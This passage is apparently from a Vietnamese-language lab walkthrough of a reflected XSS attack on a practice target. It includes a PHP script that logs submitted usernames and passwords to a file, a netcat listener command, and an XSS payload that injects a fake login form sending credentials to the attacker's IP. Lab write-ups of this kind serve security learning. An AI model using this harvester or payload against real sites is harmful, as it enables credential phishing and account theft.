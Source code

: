 Bạn có thể dùng `sudo nc -lvnp 80` hoặc dùng đoạn mã php dưới đây lưu vào index.php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.135.13/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Sau đó chạy lệnh

```zsh
sudo php -S 0.0.0.0:80
```

Ok giờ tôi sẽ tim payload mà web bị xss

```zsh
python3 /opt/XSStrike/xsstrike.py -u 'http://10.129.135.13/phishing/index.php?url=1'
```

Lưu ý payload có thể khác nhau

```zsh
[+] Payload: '><d3V%0donMousEovEr%09=%09(prompt)``>v3dm0s 
```

Hay nó sẽ như này:

```html
'><div onmouseover=prompt()>
```

Vậy tổng hợp lại payload của chúng ta sẽ như sau:

```html
'><div onmouseover=document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form>')>
```

![](images/8.png)

Bị thừa một chút ở cuối...

```html
'><div onmouseover=document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form> <!--')>
```
